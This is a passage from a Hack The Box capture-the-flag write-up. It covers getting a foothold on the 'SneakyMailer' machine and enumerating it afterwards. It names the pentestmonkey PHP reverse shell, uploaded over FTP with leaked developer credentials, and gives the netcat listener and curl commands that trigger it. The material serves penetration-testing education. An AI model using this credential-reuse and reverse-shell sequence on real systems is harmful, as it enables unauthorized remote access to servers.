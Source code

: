 ### FTP Server
Throwing the newly acquired developer creds around gets us access to the FTP area we discovered back in our information gathering phase. It appears we have access to the dev environment.  
`>> ftp 10.10.10.197`  
![FTP Access](../images/HTB-SneakyMAiler/Foothold_FTP.png)

### Web Shell
Leveraging the dev access, we're able to upload a [php web shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and gain remote access to the server.  
`>> put shell.php`

Start our netcat listener  
`>> nc -lvnp 4444`

Call our uploaded php script  
`>> curl http://dev.sneakycorp.htb/shell.php`  
![Shell](../images/HTB-SneakyMAiler/Foothold_Shell.png)

## Enumeration
We've managed to gain access to the server, but only as a low level www-data user. Looking around the box, we're able to see two users in the `/home` directory: low, and vmail. We've seen low referenced before in the emails, and lookinng their home directory shows they're the user we want to eventually pivot to.

Continuing through the box, we see three sites hosted in the `/var/www` directory: sneakycorp.htb and dev.sneakycorp.htb which we found earlier, and a new site pypi.sneakycorp.htb, running on port 8080.  